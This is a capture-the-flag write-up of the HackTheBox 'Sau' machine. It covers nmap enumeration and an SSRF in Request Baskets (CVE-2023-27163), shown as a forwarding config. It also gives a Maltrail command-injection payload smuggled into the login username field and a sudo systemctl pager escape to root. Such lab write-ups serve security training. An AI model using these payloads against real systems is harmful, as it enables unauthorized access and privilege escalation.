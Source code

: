 ```yaml
---
title: "Sau"
date: 2023-07-10 17:02:00 +0800
categories: [HackTheBox]
tags: [cve, sudo, misconfiguration]
image:
  path: /banners/sau.png
---
```




> Description : Sau is an Easy Difficulty Linux machine that features a `Request Baskets` instance that is vulnerable to Server-Side Request Forgery (SSRF) via [CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163). Leveraging the vulnerability we are to gain access to a Maltrail instance that is vulnerable to Unauthenticated OS Command Injection, which allows us to gain a reverse shell on the machine as puma. A sudo misconfiguration is then exploited to gain a root shell.
{: .prompt-info }


# Enumeration

```bash
# Nmap 7.80 scan initiated Sun Jul  9 20:56:56 2023 as: nmap -sCV -oN Nmap -p- -vvv 10.10.11.224
Nmap scan report for 10.10.11.224
Host is up, received echo-reply ttl 63 (0.31s latency).
Scanned at 2023-07-09 20:56:56 +01 for 585s
Not shown: 65531 closed ports
Reason: 65531 resets
PORT      STATE    SERVICE REASON         VERSION
22/tcp    open     ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp    filtered http    no-response
8338/tcp  filtered unknown no-response
55555/tcp open     unknown syn-ack ttl 63
| fingerprint-strings: 
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sun, 09 Jul 2023 20:05:50 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sun, 09 Jul 2023 20:05:51 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.80%I=7%D=7/9%Time=64AB131E%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;\x
SF:20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Sun,\x2009\x20Jul\x202
SF:023\x2020:05:50\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/we
SF:b\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Req
SF:uest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x2
SF:0close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x2020
SF:0\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Sun,\x2009\x20Jul\x202
SF:023\x2020:05:51\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,
SF:67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\
SF:x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")
SF:%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
SF:equest")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCont
SF:ent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r
SF:\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400\x
SF:20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nCo
SF:nnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,"H
SF:TTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20ch
SF:arset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(Ke
SF:rberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/
SF:plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Re
SF:quest");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul  9 21:06:41 2023 -- 1 IP address (1 host up) scanned in 584.89 seconds
```


[! POC](https://github.com/darklynx/request-baskets)

During my reconnaissance phase, I discovered a website that utilizes the Request Baskets service. 

This web service provides me with the flexibility to collect and examine HTTP requests through either a RESTful API or a user-friendly web interface

![image e](https://github.com/ACHUX21/Writeups/assets/130113878/560e444d-8bd9-4daa-82ee-7dd6e301d54f)

An intriguing detail we observed is that the service we stumbled upon is running an outdated version, whereas the most recent version available is 1.2.3. 
This divergence raises the possibility of potential vulnerabilities that we can exploit during our exploitation process.

![image](https://github.com/ACHUX21/Writeups/assets/130113878/77afb146-755e-423f-a258-df1685262d36)

While conducting the vulnerability assessment for this particular system version, I discovered an SSRF (Server-Side Request Forgery) vulnerability.
This vulnerability exposes a significant risk as it allows for the unauthorized disclosure of confidential information, including port enumeration.

```json
{
  "forward_url": "http://127.0.0.1:80/test",
  "proxy_response": false,
  "insecure_tls": false,
  "expand_path": true,
  "capacity": 250
}
```

Following the outlined steps in the documentation, I proceeded to create a new basket. 
However, I deviated from the default GET request method and modified it to a POST request, making the following adjustments.

By leveraging the SSRF vulnerability, I successfully created a targeted route that allowed me access. 
Within this route, I proceeded to exploit the SSRF vulnerability further, capitalizing on its weaknesses.

![image](https://github.com/ACHUX21/Writeups/assets/130113878/206e245e-494a-4b22-be1b-e8c6a94c4074)


```
http://10.10.11.224:55555/web/achux21
```


![image](https://github.com/ACHUX21/Writeups/assets/130113878/0f5c895b-8629-4e65-aaab-5758f0eb10b7)

![image](https://github.com/ACHUX21/Writeups/assets/130113878/f00be81b-f91e-4cda-9769-bcab86f16cb8)


While accessing the route generated by exploiting the SSRF vulnerability, we came across the Maltrail application.
Maltrail serves as a robust system for detecting and analyzing malicious network traffic. 
It relies on public lists containing suspicious and malicious traces, as well as static traces obtained from reports by various antivirus providers
However, it is essential to highlight that the version of Maltrail we encountered is outdated, potentially implying the presence of unaddressed vulnerabilities.

[Matrail V0.53](https://github.com/stamparm/maltrail)


During the analysis, I discovered an unauthenticated command execution vulnerability within the Maltrail application. 
This vulnerability resides in the subprocess.check_output function, specifically in the file mailtrail/core/httpd.py.
The root cause of this vulnerability is a command injection flaw present in the params.get("username") parameter.

[https://vulners.com/huntr/BE3C5204-FBD9-448D-B97C-96A8D2941E87](https://vulners.com/huntr/BE3C5204-FBD9-448D-B97C-96A8D2941E87)

![image](https://github.com/ACHUX21/Writeups/assets/130113878/3bde8930-a81e-4cd6-9122-698c80fcd9fc)

By exploiting this vuln we could have a remote code execution.

```bash
curl 'http://hostname:8338/login' --data 'username=;$(id &gt; /tmp/bbq)'
```

![image](https://github.com/ACHUX21/Writeups/assets/130113878/465aa762-6566-4472-bb11-f89508166417)

# Privilege Escalation

it's time to focus on privilege escalation.

```bash
script /dev/null -c bash
sudo  /usr/bin/systemctl status trail.service
!sh
```


```bash
script /dev/null -c bash
sudo  /usr/bin/systemctl status trail.service
!sh
```
![image](https://github.com/ACHUX21/Writeups/assets/130113878/9a551f35-dead-4e8e-9715-9c248c2d006a)


```bash
sudo -l
```
![image](https://github.com/ACHUX21/Writeups/assets/130113878/28b72b20-2633-492a-b25c-ab9a253db14a)

 BYE
